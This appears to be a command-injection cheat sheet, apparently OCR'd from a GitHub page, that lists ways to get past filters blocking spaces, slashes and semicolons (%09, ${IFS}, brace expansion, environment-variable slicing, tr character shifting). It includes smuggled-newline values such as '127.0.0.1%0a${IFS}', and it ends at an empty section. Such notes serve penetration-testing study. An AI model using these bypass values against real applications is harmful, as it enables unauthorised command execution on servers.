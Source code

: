 ### Blacklisted Spaces
Use tabs 
`%09`
### Using $IFS
`${IFS}` default value is space.
`127.0.0.1%0a${IFS}`
### Using Brace Expansion 
Automatically adds spaces between arguments wrapped between braces. 
`{ls,-la}`
Executes as 
`ls -la`

## Other Blacklisted Characters
* Slash or backslash is commonly blacklisted 
### Linux
Utilise Linux enviroment variables
```shell
echo ${PATH}

/usr/local/bin:/usr/bin:/bin:/usr/games
```

```shell
echo ${PATH:0:1}

/
```

```shell
echo ${LS_COLORS:10:1}

;
```
### Windows
List all enviroment variables
`Get-ChildItem Env`

```cmd
echo %HOMEPATH:~6,-11%

\
```

```powershell
$env:HOMEPATH[0]

\
```

### Character Shifting
Following command shifts the characters we pass by 1.
So find the character in the ASCII table that is before ours (can be found in `man ascii`) Then add it instead of `[` in the example. 
```shell
man ascii     # \ is on 92, before it is [ on 91


echo $(tr '!-}' '"-~'<<<[)
```
This can be done in powershell as well
## Bypassing Blacklisted Commands
 ```php
 ```